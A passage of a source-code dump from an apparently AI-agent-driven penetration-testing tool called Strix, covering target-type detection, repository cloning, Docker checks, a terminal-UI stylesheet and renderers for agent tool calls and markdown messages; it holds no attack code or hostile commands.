    total_tokens = total_stats["input_tokens"] + total_stats["output_tokens"]
    if total_tokens > 0:
        stats_text.append("\n")
        stats_text.append(f"{format_token_count(total_tokens)} tokens", style="white")

    if total_stats["cost"] > 0:
        stats_text.append(" · ", style="white")
        stats_text.append(f"${total_stats['cost']:.2f}", style="white")

    caido_url = getattr(tracer, "caido_url", None)
    if caido_url:
        stats_text.append("\n")
        stats_text.append("Caido: ", style="bold white")
        stats_text.append(caido_url, style="white")

    return stats_text


# Name generation utilities


def _slugify_for_run_name(text: str, max_length: int = 32) -> str:
    text = text.lower().strip()
    text = re.sub(r"[^a-z0-9]+", "-", text)
    text = text.strip("-")
    if len(text) > max_length:
        text = text[:max_length].rstrip("-")
    return text or "pentest"


def _derive_target_label_for_run_name(targets_info: list[dict[str, Any]] | None) -> str:  # noqa: PLR0911
    if not targets_info:
        return "pentest"

    first = targets_info[0]
    target_type = first.get("type")
    details = first.get("details", {}) or {}
    original = first.get("original", "") or ""

    if target_type == "web_application":
        url = details.get("target_url", original)
        try:
            parsed = urlparse(url)
            return str(parsed.netloc or parsed.path or url)
        except Exception:  # noqa: BLE001
            return str(url)

    if target_type == "repository":
        repo = details.get("target_repo", original)
        parsed = urlparse(repo)
        path = parsed.path or repo
        name = path.rstrip("/").split("/")[-1] or path
        if name.endswith(".git"):
            name = name[:-4]
        return str(name)

    if target_type == "local_code":
        path_str = details.get("target_path", original)
        try:
            return str(Path(path_str).name or path_str)
        except Exception:  # noqa: BLE001
            return str(path_str)

    if target_type == "ip_address":
        return str(details.get("target_ip", original) or original)

    return str(original or "pentest")


def generate_run_name(targets_info: list[dict[str, Any]] | None = None) -> str:
    base_label = _derive_target_label_for_run_name(targets_info)
    slug = _slugify_for_run_name(base_label)

    random_suffix = secrets.token_hex(2)

    return f"{slug}_{random_suffix}"


# Target processing utilities


def _is_http_git_repo(url: str) -> bool:
    check_url = f"{url.rstrip('/')}/info/refs?service=git-upload-pack"
    try:
        req = Request(check_url, headers={"User-Agent": "git/strix"})  # noqa: S310
        with urlopen(req, timeout=10) as resp:  # noqa: S310  # nosec B310
            return "x-git-upload-pack-advertisement" in resp.headers.get("Content-Type", "")
    except HTTPError as e:
        return e.code == 401
    except (URLError, OSError, ValueError):
        return False


def infer_target_type(target: str) -> tuple[str, dict[str, str]]:  # noqa: PLR0911, PLR0912
    if not target or not isinstance(target, str):
        raise ValueError("Target must be a non-empty string")

    target = target.strip()

    if target.startswith("git@"):
        return "repository", {"target_repo": target}

    if target.startswith("git://"):
        return "repository", {"target_repo": target}

    parsed = urlparse(target)
    if parsed.scheme in ("http", "https"):
        if parsed.username or parsed.password:
            return "repository", {"target_repo": target}
        if parsed.path.rstrip("/").endswith(".git"):
            return "repository", {"target_repo": target}
        if parsed.query or parsed.fragment:
            return "web_application", {"target_url": target}
        path_segments = [s for s in parsed.path.split("/") if s]
        if len(path_segments) >= 2 and _is_http_git_repo(target):
            return "repository", {"target_repo": target}
        return "web_application", {"target_url": target}

    try:
        ip_obj = ipaddress.ip_address(target)
    except ValueError:
        pass
    else:
        return "ip_address", {"target_ip": str(ip_obj)}

    path = Path(target).expanduser()
    try:
        if path.exists():
            if path.is_dir():
                return "local_code", {"target_path": str(path.resolve())}
            raise ValueError(f"Path exists but is not a directory: {target}")
    except (OSError, RuntimeError) as e:
        raise ValueError(f"Invalid path: {target} - {e!s}") from e

    if target.endswith(".git"):
        return "repository", {"target_repo": target}

    if "/" in target:
        host_part, _, path_part = target.partition("/")
        if "." in host_part and not host_part.startswith(".") and path_part:
            full_url = f"https://{target}"
            if _is_http_git_repo(full_url):
                return "repository", {"target_repo": full_url}
            return "web_application", {"target_url": full_url}

    if "." in target and "/" not in target and not target.startswith("."):
        parts = target.split(".")
        if len(parts) >= 2 and all(p and p.strip() for p in parts):
            return "web_application", {"target_url": f"https://{target}"}

    raise ValueError(
        f"Invalid target: {target}\n"
        "Target must be one of:\n"
        "- A valid URL (http:// or https://)\n"
        "- A Git repository URL (https://host/org/repo or git@host:org/repo.git)\n"
        "- A local directory path\n"
        "- A domain name (e.g., example.com)\n"
        "- An IP address (e.g., 192.168.1.10)"
    )


def sanitize_name(name: str) -> str:
    sanitized = re.sub(r"[^A-Za-z0-9._-]", "-", name.strip())
    return sanitized or "target"


def derive_repo_base_name(repo_url: str) -> str:
    if repo_url.endswith("/"):
        repo_url = repo_url[:-1]

    if ":" in repo_url and repo_url.startswith("git@"):
        path_part = repo_url.split(":", 1)[1]
    else:
        path_part = urlparse(repo_url).path or repo_url

    candidate = path_part.split("/")[-1]
    if candidate.endswith(".git"):
        candidate = candidate[:-4]

    return sanitize_name(candidate or "repository")


def derive_local_base_name(path_str: str) -> str:
    try:
        base = Path(path_str).resolve().name
    except (OSError, RuntimeError):
        base = Path(path_str).name
    return sanitize_name(base or "workspace")


def assign_workspace_subdirs(targets_info: list[dict[str, Any]]) -> None:
    name_counts: dict[str, int] = {}

    for target in targets_info:
        target_type = target["type"]
        details = target["details"]

        base_name: str | None = None
        if target_type == "repository":
            base_name = derive_repo_base_name(details["target_repo"])
        elif target_type == "local_code":
            base_name = derive_local_base_name(details.get("target_path", "local"))

        if base_name is None:
            continue

        count = name_counts.get(base_name, 0) + 1
        name_counts[base_name] = count

        workspace_subdir = base_name if count == 1 else f"{base_name}-{count}"

        details["workspace_subdir"] = workspace_subdir


def collect_local_sources(targets_info: list[dict[str, Any]]) -> list[dict[str, str]]:
    local_sources: list[dict[str, str]] = []

    for target_info in targets_info:
        details = target_info["details"]
        workspace_subdir = details.get("workspace_subdir")

        if target_info["type"] == "local_code" and "target_path" in details:
            local_sources.append(
                {
                    "source_path": details["target_path"],
                    "workspace_subdir": workspace_subdir,
                }
            )

        elif target_info["type"] == "repository" and "cloned_repo_path" in details:
            local_sources.append(
                {
                    "source_path": details["cloned_repo_path"],
                    "workspace_subdir": workspace_subdir,
                }
            )

    return local_sources


def _is_localhost_host(host: str) -> bool:
    host_lower = host.lower().strip("[]")

    if host_lower in ("localhost", "0.0.0.0", "::1"):  # nosec B104
        return True

    try:
        ip = ipaddress.ip_address(host_lower)
        if isinstance(ip, ipaddress.IPv4Address):
            return ip.is_loopback  # 127.0.0.0/8
        if isinstance(ip, ipaddress.IPv6Address):
            return ip.is_loopback  # ::1
    except ValueError:
        pass

    return False


def rewrite_localhost_targets(targets_info: list[dict[str, Any]], host_gateway: str) -> None:
    from yarl import URL  # type: ignore[import-not-found]

    for target_info in targets_info:
        target_type = target_info.get("type")
        details = target_info.get("details", {})

        if target_type == "web_application":
            target_url = details.get("target_url", "")
            try:
                url = URL(target_url)
            except (ValueError, TypeError):
                continue

            if url.host and _is_localhost_host(url.host):
                details["target_url"] = str(url.with_host(host_gateway))

        elif target_type == "ip_address":
            target_ip = details.get("target_ip", "")
            if target_ip and _is_localhost_host(target_ip):
                details["target_ip"] = host_gateway


# Repository utilities
def clone_repository(repo_url: str, run_name: str, dest_name: str | None = None) -> str:
    console = Console()

    git_executable = shutil.which("git")
    if git_executable is None:
        raise FileNotFoundError("Git executable not found in PATH")

    temp_dir = Path(tempfile.gettempdir()) / "strix_repos" / run_name
    temp_dir.mkdir(parents=True, exist_ok=True)

    if dest_name:
        repo_name = dest_name
    else:
        repo_name = Path(repo_url).stem if repo_url.endswith(".git") else Path(repo_url).name

    clone_path = temp_dir / repo_name

    if clone_path.exists():
        shutil.rmtree(clone_path)

    try:
        with console.status(f"[bold cyan]Cloning repository {repo_url}...", spinner="dots"):
            subprocess.run(  # noqa: S603
                [
                    git_executable,
                    "clone",
                    repo_url,
                    str(clone_path),
                ],
                capture_output=True,
                text=True,
                check=True,
            )

        return str(clone_path.absolute())

    except subprocess.CalledProcessError as e:
        error_text = Text()
        error_text.append("REPOSITORY CLONE FAILED", style="bold red")
        error_text.append("\n\n", style="white")
        error_text.append(f"Could not clone repository: {repo_url}\n", style="white")
        error_text.append(
            f"Error: {e.stderr if hasattr(e, 'stderr') and e.stderr else str(e)}", style="dim red"
        )

        panel = Panel(
            error_text,
            title="[bold white]STRIX",
            title_align="left",
            border_style="red",
            padding=(1, 2),
        )
        console.print("\n")
        console.print(panel)
        console.print()
        sys.exit(1)
    except FileNotFoundError:
        error_text = Text()
        error_text.append("GIT NOT FOUND", style="bold red")
        error_text.append("\n\n", style="white")
        error_text.append("Git is not installed or not available in PATH.\n", style="white")
        error_text.append("Please install Git to clone repositories.\n", style="white")

        panel = Panel(
            error_text,
            title="[bold white]STRIX",
            title_align="left",
            border_style="red",
            padding=(1, 2),
        )
        console.print("\n")
        console.print(panel)
        console.print()
        sys.exit(1)


# Docker utilities
def check_docker_connection() -> Any:
    try:
        return docker.from_env()
    except DockerException:
        console = Console()
        error_text = Text()
        error_text.append("DOCKER NOT AVAILABLE", style="bold red")
        error_text.append("\n\n", style="white")
        error_text.append("Cannot connect to Docker daemon.\n", style="white")
        error_text.append(
            "Please ensure Docker Desktop is installed and running, and try running strix again.\n",
            style="white",
        )

        panel = Panel(
            error_text,
            title="[bold white]STRIX",
            title_align="left",
            border_style="red",
            padding=(1, 2),
        )
        console.print("\n", panel, "\n")
        raise RuntimeError("Docker not available") from None


def image_exists(client: Any, image_name: str) -> bool:
    try:
        client.images.get(image_name)
    except ImageNotFound:
        return False
    else:
        return True


def update_layer_status(layers_info: dict[str, str], layer_id: str, layer_status: str) -> None:
    if "Pull complete" in layer_status or "Already exists" in layer_status:
        layers_info[layer_id] = "✓"
    elif "Downloading" in layer_status:
        layers_info[layer_id] = "↓"
    elif "Extracting" in layer_status:
        layers_info[layer_id] = "📦"
    elif "Waiting" in layer_status:
        layers_info[layer_id] = "⏳"
    else:
        layers_info[layer_id] = "•"


def process_pull_line(
    line: dict[str, Any], layers_info: dict[str, str], status: Any, last_update: str
) -> str:
    if "id" in line and "status" in line:
        layer_id = line["id"]
        update_layer_status(layers_info, layer_id, line["status"])

        completed = sum(1 for v in layers_info.values() if v == "✓")
        total = len(layers_info)

        if total > 0:
            update_msg = f"[bold cyan]Progress: {completed}/{total} layers complete"
            if update_msg != last_update:
                status.update(update_msg)
                return update_msg

    elif "status" in line and "id" not in line:
        global_status = line["status"]
        if "Pulling from" in global_status:
            status.update("[bold cyan]Fetching image manifest...")
        elif "Digest:" in global_status:
            status.update("[bold cyan]Verifying image...")
        elif "Status:" in global_status:
            status.update("[bold cyan]Finalizing...")

    return last_update


# LLM utilities
def validate_llm_response(response: Any) -> None:
    if not response or not response.choices or not response.choices[0].message.content:
        raise RuntimeError("Invalid response from LLM")


def validate_config_file(config_path: str) -> Path:
    console = Console()
    path = Path(config_path)

    if not path.exists():
        console.print(f"[bold red]Error:[/] Config file not found: {config_path}")
        sys.exit(1)

    if path.suffix != ".json":
        console.print("[bold red]Error:[/] Config file must be a .json file")
        sys.exit(1)

    try:
        with path.open("r", encoding="utf-8") as f:
            data = json.load(f)
    except json.JSONDecodeError as e:
        console.print(f"[bold red]Error:[/] Invalid JSON in config file: {e}")
        sys.exit(1)

    if not isinstance(data, dict):
        console.print("[bold red]Error:[/] Config file must contain a JSON object")
        sys.exit(1)

    if "env" not in data or not isinstance(data.get("env"), dict):
        console.print("[bold red]Error:[/] Config file must have an 'env' object")
        sys.exit(1)

    return path
```

## File: `strix/interface/__init__.py`
```python
from .main import main


__all__ = ["main"]
```

## File: `strix/interface/assets/tui_styles.tcss`
```
Screen {
    background: #000000;
    color: #d4d4d4;
}

.screen--selection {
    background: #2d3d2f;
    color: #e5e5e5;
}

ToastRack {
    dock: top;
    align: right top;
    margin-bottom: 0;
    margin-top: 1;
}

Toast {
    width: 25;
    background: #000000;
    border-left: outer #22c55e;
}

Toast.-information .toast--title {
    color: #22c55e;
}

#splash_screen {
    height: 100%;
    width: 100%;
    background: #000000;
    color: #22c55e;
    align: center middle;
    content-align: center middle;
    text-align: center;
}

#splash_content {
    width: auto;
    height: auto;
    background: transparent;
    text-align: center;
    content-align: center middle;
    padding: 2;
}

#main_container {
    height: 100%;
    padding: 0;
    margin: 0;
    background: #000000;
}

#content_container {
    height: 1fr;
    padding: 0;
    background: transparent;
}

#sidebar {
    width: 20%;
    background: transparent;
    margin-left: 1;
}

#sidebar.-hidden {
    display: none;
}

#agents_tree {
    height: 1fr;
    background: transparent;
    border: round #333333;
    border-title-color: #a8a29e;
    border-title-style: bold;
    padding: 1;
    margin-bottom: 0;
}

#stats_scroll {
    height: auto;
    max-height: 15;
    background: transparent;
    padding: 0;
    margin: 0;
    border: round #333333;
    scrollbar-size: 0 0;
}

#stats_display {
    height: auto;
    background: transparent;
    padding: 0 1;
    margin: 0;
}

#vulnerabilities_panel {
    height: auto;
    max-height: 12;
    background: transparent;
    padding: 0;
    margin: 0;
    border: round #333333;
    overflow-y: auto;
    scrollbar-background: #000000;
    scrollbar-color: #333333;
    scrollbar-corner-color: #000000;
    scrollbar-size-vertical: 1;
}

#vulnerabilities_panel.hidden {
    display: none;
}

.vuln-item {
    height: auto;
    width: 100%;
    padding: 0 1;
    background: transparent;
    color: #d4d4d4;
}

.vuln-item:hover {
    background: #1a1a1a;
    color: #fafaf9;
}

VulnerabilityDetailScreen {
    align: center middle;
    background: #000000 80%;
}

#vuln_detail_dialog {
    grid-size: 1;
    grid-gutter: 1;
    grid-rows: 1fr auto;
    padding: 2 3;
    width: 85%;
    max-width: 110;
    height: 85%;
    max-height: 45;
    border: solid #262626;
    background: #0a0a0a;
}

#vuln_detail_scroll {
    height: 1fr;
    background: transparent;
    scrollbar-background: #0a0a0a;
    scrollbar-color: #404040;
    scrollbar-corner-color: #0a0a0a;
    scrollbar-size: 1 1;
    padding-right: 1;
}

#vuln_detail_content {
    width: 100%;
    background: transparent;
    padding: 0;
}

#vuln_detail_buttons {
    width: 100%;
    height: auto;
    align: right middle;
    padding-top: 1;
    margin: 0;
    border-top: solid #1a1a1a;
}

#copy_vuln_detail {
    width: auto;
    min-width: 12;
    height: auto;
    background: transparent;
    color: #525252;
    border: none;
    text-style: none;
    margin: 0 1;
    padding: 0 2;
}

#close_vuln_detail {
    width: auto;
    min-width: 10;
    height: auto;
    background: transparent;
    color: #a3a3a3;
    border: none;
    text-style: none;
    margin: 0;
    padding: 0 2;
}

#copy_vuln_detail:hover, #copy_vuln_detail:focus {
    background: transparent;
    color: #22c55e;
    border: none;
}

#close_vuln_detail:hover, #close_vuln_detail:focus {
    background: transparent;
    color: #ffffff;
    border: none;
}

#chat_area_container {
    width: 80%;
    background: transparent;
}

#chat_area_container.-full-width {
    width: 100%;
}

#chat_history {
    height: 1fr;
    background: transparent;
    border: round #0a0a0a;
    padding: 0;
    margin-bottom: 0;
    margin-right: 0;
    scrollbar-background: #000000;
    scrollbar-color: #1a1a1a;
    scrollbar-corner-color: #000000;
    scrollbar-size: 1 1;
}

#agent_status_display {
    height: 1;
    background: transparent;
    margin: 0;
    padding: 0 1;
}

#agent_status_display.hidden {
    display: none;
}

#status_text {
    width: 1fr;
    height: 100%;
    background: transparent;
    color: #a3a3a3;
    text-align: left;
    content-align: left middle;
    text-style: none;
    margin: 0;
    padding: 0;
}

#keymap_indicator {
    width: auto;
    height: 100%;
    background: transparent;
    color: #737373;
    text-align: right;
    content-align: right middle;
    text-style: none;
    margin: 0;
    padding: 0;
}

#chat_input_container {
    height: 3;
    background: transparent;
    border: round #333333;
    margin-right: 0;
    padding: 0;
    layout: horizontal;
    align-vertical: top;
}

#chat_input_container:focus-within {
    border: round #22c55e;
}

#chat_input_container:focus-within #chat_prompt {
    color: #22c55e;
    text-style: bold;
}

#chat_prompt {
    width: auto;
    height: 100%;
    padding: 0 0 0 1;
    color: #737373;
    content-align-vertical: top;
}

#chat_history:focus {
    border: round #22c55e;
}

#chat_input {
    width: 1fr;
    height: 100%;
    background: transparent;
    border: none;
    color: #d4d4d4;
    padding: 0;
    margin: 0;
}

#chat_input:focus {
    border: none;
}

#chat_input .text-area--cursor-line {
    background: transparent;
}

#chat_input:focus .text-area--cursor-line {
    background: transparent;
}

#chat_input > .text-area--placeholder {
    color: #525252;
    text-style: italic;
}

#chat_input > .text-area--cursor {
    color: #22c55e;
    background: #22c55e;
}

.chat-placeholder {
    width: 100%;
    height: 100%;
    content-align: center middle;
    text-align: center;
    color: #737373;
    text-style: italic;
}

.chat-content {
    margin: 0 !important;
    margin-top: 0 !important;
    margin-bottom: 0 !important;
    padding: 0 1;
    background: transparent;
    width: 100%;
}

.chat-message {
    margin-bottom: 0;
    padding: 0;
    background: transparent;
    width: 100%;
}

.user-message {
    color: #e5e5e5;
    border-left: thick #3b82f6;
    padding-left: 1;
    margin-bottom: 1;
}

.tool-call {
    margin-top: 1;
    margin-bottom: 0;
    padding: 0 1;
    background: transparent;
    border: none;
    width: 100%;
}

.tool-call.status-completed {
    background: transparent;
    margin-top: 1;
    margin-bottom: 0;
}

.tool-call.status-running {
    background: transparent;
    margin-top: 1;
    margin-bottom: 0;
}

.tool-call.status-failed,
.tool-call.status-error {
    background: transparent;
    margin-top: 1;
    margin-bottom: 0;
}

.browser-tool,
.terminal-tool,
.python-tool,
.agents-graph-tool,
.file-edit-tool,
.proxy-tool,
.notes-tool,
.thinking-tool,
.web-search-tool,
.scan-info-tool,
.subagent-info-tool {
    margin-top: 1;
    margin-bottom: 0;
    background: transparent;
}

.finish-tool,
.reporting-tool {
    margin-top: 1;
    margin-bottom: 0;
    background: transparent;
}

.browser-tool.status-completed,
.browser-tool.status-running,
.terminal-tool.status-completed,
.terminal-tool.status-running,
.python-tool.status-completed,
.python-tool.status-running,
.agents-graph-tool.status-completed,
.agents-graph-tool.status-running,
.file-edit-tool.status-completed,
.file-edit-tool.status-running,
.proxy-tool.status-completed,
.proxy-tool.status-running,
.notes-tool.status-completed,
.notes-tool.status-running,
.thinking-tool.status-completed,
.thinking-tool.status-running,
.web-search-tool.status-completed,
.web-search-tool.status-running,
.scan-info-tool.status-completed,
.scan-info-tool.status-running,
.subagent-info-tool.status-completed,
.subagent-info-tool.status-running {
    background: transparent;
    margin-top: 1;
    margin-bottom: 0;
}

.finish-tool.status-completed,
.finish-tool.status-running,
.reporting-tool.status-completed,
.reporting-tool.status-running {
    background: transparent;
    margin-top: 1;
    margin-bottom: 0;
}

Tree {
    background: transparent;
    color: #e7e5e4;
    scrollbar-background: transparent;
    scrollbar-color: #404040;
    scrollbar-corner-color: transparent;
    scrollbar-size: 1 1;
}

Tree > .tree--label {
    text-style: bold;
    color: #a8a29e;
    background: transparent;
    padding: 0 1;
    margin-bottom: 1;
    border-bottom: solid #1a1a1a;
    text-align: center;
}

.tree--node {
    height: 1;
    padding: 0;
    margin: 0;
}

.tree--node-label {
    color: #d6d3d1;
    background: transparent;
    text-style: none;
    padding: 0 1;
    margin: 0 1;
}

.tree--node:hover .tree--node-label {
    background: transparent;
    color: #fafaf9;
    text-style: bold;
    border-left: solid #a8a29e;
}

.tree--node.-selected .tree--node-label {
    background: transparent;
    color: #fafaf9;
    text-style: bold;
    border-left: heavy #d6d3d1;
}

.tree--node.-expanded .tree--node-label {
    text-style: bold;
    color: #fafaf9;
    background: transparent;
    border-left: solid #78716c;
}

Tree:focus {
    border: round #1a1a1a;
}

Tree:focus > .tree--label {
    color: #fafaf9;
    text-style: bold;
    background: transparent;
}

.tree--node .tree--node .tree--node-label {
    color: #a8a29e;
    padding-left: 2;
    border: none;
    background: transparent;
    margin-left: 1;
}

.tree--node .tree--node:hover .tree--node-label {
    background: transparent;
    color: #e7e5e4;
}

.tree--node .tree--node .tree--node .tree--node-label {
    color: #78716c;
    padding-left: 3;
    text-style: none;
    border: none;
    background: transparent;
    margin-left: 2;
}

StopAgentScreen {
    align: center middle;
    background: $background 0%;
}

#stop_agent_dialog {
    grid-size: 1;
    grid-gutter: 1;
    grid-rows: auto auto;
    padding: 1;
    width: 30;
    height: auto;
    border: round #a3a3a3;
    background: #000000 98%;
}

#stop_agent_title {
    color: #a3a3a3;
    text-style: bold;
    text-align: center;
    width: 100%;
    margin-bottom: 0;
}

#stop_agent_buttons {
    grid-size: 2;
    grid-gutter: 1;
    grid-columns: 1fr 1fr;
    width: 100%;
    height: 1;
}

#stop_agent_buttons Button {
    height: 1;
    min-height: 1;
    border: none;
    text-style: bold;
}

#stop_agent {
    background: transparent;
    color: #ef4444;
    border: none;
}

#stop_agent:hover, #stop_agent:focus {
    background: #ef4444;
    color: #ffffff;
    border: none;
}

#cancel_stop {
    background: transparent;
    color: #737373;
    border: none;
}

#cancel_stop:hover, #cancel_stop:focus {
    background:rgb(54, 54, 54);
    color: #ffffff;
    border: none;
}

QuitScreen {
    align: center middle;
    background: $background 0%;
}

#quit_dialog {
    grid-size: 1;
    grid-gutter: 1;
    grid-rows: auto auto;
    padding: 1;
    width: 24;
    height: auto;
    border: round #333333;
    background: #000000 98%;
}

#quit_title {
    color: #d4d4d4;
    text-style: bold;
    text-align: center;
    width: 100%;
    margin-bottom: 0;
}

#quit_buttons {
    grid-size: 2;
    grid-gutter: 1;
    grid-columns: 1fr 1fr;
    width: 100%;
    height: 1;
}

#quit_buttons Button {
    height: 1;
    min-height: 1;
    border: none;
    text-style: bold;
}

#quit {
    background: transparent;
    color: #ef4444;
    border: none;
}

#quit:hover, #quit:focus {
    background: #ef4444;
    color: #ffffff;
    border: none;
}

#cancel {
    background: transparent;
    color: #737373;
    border: none;
}

#cancel:hover, #cancel:focus {
    background:rgb(54, 54, 54);
    color: #ffffff;
    border: none;
}

HelpScreen {
    align: center middle;
    background: $background 0%;
}

#dialog {
    grid-size: 1;
    grid-gutter: 0 1;
    grid-rows: auto auto;
    padding: 1 2;
    width: 40;
    height: auto;
    border: round #22c55e;
    background: #000000 98%;
}

#help_title {
    color: #22c55e;
    text-style: bold;
    text-align: center;
    width: 100%;
    margin-bottom: 1;
}

#help_content {
    color: #d4d4d4;
    text-align: left;
    width: 100%;
    margin-bottom: 1;
    padding: 0;
    background: transparent;
    text-style: none;
}
```

## File: `strix/interface/tool_components/agents_graph_renderer.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


@register_tool_renderer
class ViewAgentGraphRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "view_agent_graph"
    css_classes: ClassVar[list[str]] = ["tool-call", "agents-graph-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        status = tool_data.get("status", "unknown")

        text = Text()
        text.append("◇ ", style="#a78bfa")
        text.append("viewing agents graph", style="dim")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)


@register_tool_renderer
class CreateAgentRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "create_agent"
    css_classes: ClassVar[list[str]] = ["tool-call", "agents-graph-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        status = tool_data.get("status", "unknown")

        task = args.get("task", "")
        name = args.get("name", "Agent")

        text = Text()
        text.append("◈ ", style="#a78bfa")
        text.append("spawning ", style="dim")
        text.append(name, style="bold #a78bfa")

        if task:
            text.append("\n  ")
            text.append(task, style="dim")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)


@register_tool_renderer
class SendMessageToAgentRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "send_message_to_agent"
    css_classes: ClassVar[list[str]] = ["tool-call", "agents-graph-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        status = tool_data.get("status", "unknown")

        message = args.get("message", "")
        agent_id = args.get("agent_id", "")

        text = Text()
        text.append("→ ", style="#60a5fa")
        if agent_id:
            text.append(f"to {agent_id}", style="dim")
        else:
            text.append("sending message", style="dim")

        if message:
            text.append("\n  ")
            text.append(message, style="dim")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)


@register_tool_renderer
class AgentFinishRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "agent_finish"
    css_classes: ClassVar[list[str]] = ["tool-call", "agents-graph-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})

        result_summary = args.get("result_summary", "")
        findings = args.get("findings", [])
        success = args.get("success", True)

        text = Text()

        if success:
            text.append("◆ ", style="#22c55e")
            text.append("Agent completed", style="bold #22c55e")
        else:
            text.append("◆ ", style="#ef4444")
            text.append("Agent failed", style="bold #ef4444")

        if result_summary:
            text.append("\n  ")
            text.append(result_summary, style="bold")

            if findings and isinstance(findings, list):
                for finding in findings:
                    text.append("\n  • ")
                    text.append(str(finding), style="dim")
        else:
            text.append("\n  ")
            text.append("Completing task...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class WaitForMessageRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "wait_for_message"
    css_classes: ClassVar[list[str]] = ["tool-call", "agents-graph-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        status = tool_data.get("status", "unknown")

        reason = args.get("reason", "")

        text = Text()
        text.append("○ ", style="#6b7280")
        text.append("waiting", style="dim")

        if reason:
            text.append("\n  ")
            text.append(reason, style="dim")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/agent_message_renderer.py`
```python
from functools import cache
from typing import Any, ClassVar

from pygments.lexers import get_lexer_by_name, guess_lexer
from pygments.styles import get_style_by_name
from pygments.util import ClassNotFound
from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


_HEADER_STYLES = [
    ("###### ", 7, "bold #4ade80"),
    ("##### ", 6, "bold #22c55e"),
    ("#### ", 5, "bold #16a34a"),
    ("### ", 4, "bold #15803d"),
    ("## ", 3, "bold #22c55e"),
    ("# ", 2, "bold #4ade80"),
]


@cache
def _get_style_colors() -> dict[Any, str]:
    style = get_style_by_name("native")
    return {token: f"#{style_def['color']}" for token, style_def in style if style_def["color"]}


def _get_token_color(token_type: Any) -> str | None:
    colors = _get_style_colors()
    while token_type:
        if token_type in colors:
            return colors[token_type]
        token_type = token_type.parent
    return None


def _highlight_code(code: str, language: str | None = None) -> Text:
    text = Text()

    try:
        lexer = get_lexer_by_name(language) if language else guess_lexer(code)
    except ClassNotFound:
        text.append(code, style="#d4d4d4")
        return text

    for token_type, token_value in lexer.get_tokens(code):
        if not token_value:
            continue
        color = _get_token_color(token_type)
        text.append(token_value, style=color)

    return text


def _try_parse_header(line: str) -> tuple[str, str] | None:
    for prefix, strip_len, style in _HEADER_STYLES:
        if line.startswith(prefix):
            return (line[strip_len:], style)
    return None


def _apply_markdown_styles(text: str) -> Text:  # noqa: PLR0912
    result = Text()
    lines = text.split("\n")

    in_code_block = False
    code_block_lang: str | None = None
    code_block_lines: list[str] = []

    for i, line in enumerate(lines):
        if i > 0 and not in_code_block:
            result.append("\n")

        if line.startswith("```"):
            if not in_code_block:
                in_code_block = True
                code_block_lang = line[3:].strip() or None
                code_block_lines = []
                if i > 0:
                    result.append("\n")
            else:
                in_code_block = False
                code_content = "\n".join(code_block_lines)
                if code_content:
                    result.append_text(_highlight_code(code_content, code_block_lang))
                code_block_lines = []
                code_block_lang = None
            continue

        if in_code_block:
            code_block_lines.append(line)
            continue

        header = _try_parse_header(line)
        if header:
            result.append(header[0], style=header[1])
        elif line.startswith("> "):
            result.append("┃ ", style="#22c55e")
            result.append_text(_process_inline_formatting(line[2:]))
        elif line.startswith(("- ", "* ")):
            result.append("• ", style="#22c55e")
            result.append_text(_process_inline_formatting(line[2:]))
        elif len(line) > 2 and line[0].isdigit() and line[1:3] in (". ", ") "):
            result.append(line[0] + ". ", style="#22c55e")
            result.append_text(_process_inline_formatting(line[2:]))
        elif line.strip() in ("---", "***", "___"):
            result.append("─" * 40, style="#22c55e")
        else:
            result.append_text(_process_inline_formatting(line))

    if in_code_block and code_block_lines:
        code_content = "\n".join(code_block_lines)
        result.append_text(_highlight_code(code_content, code_block_lang))

    return result


def _process_inline_formatting(line: str) -> Text:
    result = Text()
    i = 0
    n = len(line)

    while i < n:
        if i + 1 < n and line[i : i + 2] in ("**", "__"):
            marker = line[i : i + 2]
            end = line.find(marker, i + 2)
            if end != -1:
                result.append(line[i + 2 : end], style="bold #4ade80")
                i = end + 2
                continue

        if i + 1 < n and line[i : i + 2] == "~~":
            end = line.find("~~", i + 2)
            if end != -1:
                result.append(line[i + 2 : end], style="strike #525252")
                i = end + 2
                continue

        if line[i] == "`":
            end = line.find("`", i + 1)
            if end != -1:
                result.append(line[i + 1 : end], style="bold #22c55e on #0a0a0a")
                i = end + 1
                continue

        if line[i] in ("*", "_"):
            marker = line[i]
            if i + 1 < n and line[i + 1] != marker:
                end = line.find(marker, i + 1)
                if end != -1 and (end + 1 >= n or line[end + 1] != marker):
                    result.append(line[i + 1 : end], style="italic #86efac")
                    i = end + 1
                    continue

        result.append(line[i])
        i += 1

    return result


@register_tool_renderer
class AgentMessageRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "agent_message"
    css_classes: ClassVar[list[str]] = ["chat-message", "agent-message"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        content = tool_data.get("content", "")

        if not content:
            return Static(Text(), classes=" ".join(cls.css_classes))

        styled_text = _apply_markdown_styles(content)

        return Static(styled_text, classes=" ".join(cls.css_classes))

    @classmethod
    def render_simple(cls, content: str) -> Text:
        if not content:
            return Text()

        from strix.llm.utils import clean_content

        cleaned = clean_content(content)
        if not cleaned:
            return Text()

        return _apply_markdown_styles(cleaned)
```

## File: `strix/interface/tool_components/base_renderer.py`
```python
from abc import ABC, abstractmethod
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static


